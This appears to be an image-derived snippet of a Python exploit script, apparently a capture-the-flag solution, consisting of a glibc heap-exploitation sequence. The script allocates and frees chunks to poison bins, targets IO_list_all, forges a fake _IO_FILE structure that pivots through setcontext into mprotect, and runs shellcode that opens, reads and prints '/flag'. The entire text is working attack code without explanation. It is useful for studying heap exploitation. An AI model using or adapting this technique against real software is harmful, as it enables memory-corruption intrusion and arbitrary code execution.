 ```py
    Delete(3)
    Add(0x20,p64(heap_base+0xc0))#11
    Add(0x20,p64(0x31)*4)#12
    Add(0x20,p64(0x31)*4)#13

    Add(0x20,p64(0)+p64(0xa1))#14

    Delete(3)
    Add(0x30)#15
    Add(0x70)#16
    #change small bin

    Delete(13)


    Delete(10)
    Delete(13)

    Add(0x20,p64(heap_base+0xd0-0x20))#17

    Add(0x20)#18
    Add(0x20)#18



    Add(0x20,p64(0)+p64(0x311))



    Delete(10)
    Add(0x20,p64(0)+p64(0x151))
    Delete(8)
    Delete(15)

    Add(0x140,p64(0x31)*(0xa0/8)+p64(0)+p64(0x311)+p64(0)+p64(IO_list_all-0x10))
    #
    IO_str_j = libc.sym['_IO_file_jumps']+0xc0
    print hex(IO_str_j)
    setcontext = libc.sym['setcontext']+53
    map_addr = libc.sym['mprotect']
    heap_base = heap_base - 0x20
    fake_io = p64(0)*4+p64(0)+p64(heap_base)+p64(0x1000)+p64(0)+p64((heap_base+0xf0-100)/2)+p64(7)+p64(0xdadaddaaddddaaaa)*2+p64(heap_base+0x220)+p64(map_addr)+p64(0x0)*6+p64(0)+p64(0xdadaddaaddddaaaa)*6+p64(IO_str_j)+p64(setcontext)
    lis = [str(heap_base+0x228),str(heap_base+0x10),str(heap_base+0x10)]
    sc = "/flag"+"\x00"*11+asm('''
            mov rsi,{0[0]}
            xor rdi,rdi
            xor rdx,rdx
            mov rax,257
            syscall
            mov rdi,3
            mov rsi,{0[1]}
            mov rdx,48
            mov rax,0
            syscall
            mov rdi,1
            mov rsi,{0[2]}
            mov rdx,48
            mov rax,1
            syscall
            '''.format(lis))
    Add(0x300,p64(0)*4+p64(0)+p64(0x61)+p64(0)*2+fake_io+p64(0x31)+p64(heap_base+0x238)+sc)
```